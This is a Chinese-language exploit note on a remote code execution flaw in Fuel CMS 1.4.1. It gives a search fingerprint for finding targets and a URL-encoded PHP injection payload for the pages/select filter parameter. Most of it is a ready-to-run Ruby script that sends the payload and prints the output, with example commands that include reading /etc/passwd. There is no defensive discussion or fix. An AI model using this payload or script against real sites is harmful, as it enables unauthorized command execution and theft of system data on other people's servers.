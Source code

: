 # 

# Fuel CMS 1.4.1 远程代码执行漏洞

## 漏洞描述

参考链接：

* https://github.com/nahi/httpclient/issues/242
* https://www.exploit-db.com/exploits/49487

## 网络测绘

```
"Fuel CMS"
```

## 漏洞复现

poc：

```
/fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('#{cmd}')%2B'
```

```
#!/usr/bin/env ruby

require 'httpclient'
require 'docopt'

# dirty workaround to ignore Max-Age
# https://github.com/nahi/httpclient/issues/242#issuecomment-69013932
$VERBOSE = nil

doc = <<~DOCOPT
  Fuel CMS 1.4 - Remote Code Execution

  Usage:
    #{__FILE__} <url> <cmd>
    #{__FILE__} -h | --help

  Options:
    <url>         Root URL (base path) including HTTP scheme, port and root folder
    <cmd>         The system command to execute
    -h, --help    Show this screen

  Examples:
    #{__FILE__} http://example.org id
    #{__FILE__} https://example.org:8443/fuelcms 'cat /etc/passwd'
DOCOPT

def exploit(client, root_url, cmd)
  url = root_url + "/fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('#{cmd}')%2B'"

  res = client.get(url)

  /system(.+?)<div/mx.match(res.body).captures[0].chomp
end

begin
  args = Docopt.docopt(doc)
  clnt = HTTPClient.new
  puts exploit(clnt, args['<url>'], args['<cmd>'])
rescue Docopt::Exit => e
  puts e.message
end
```


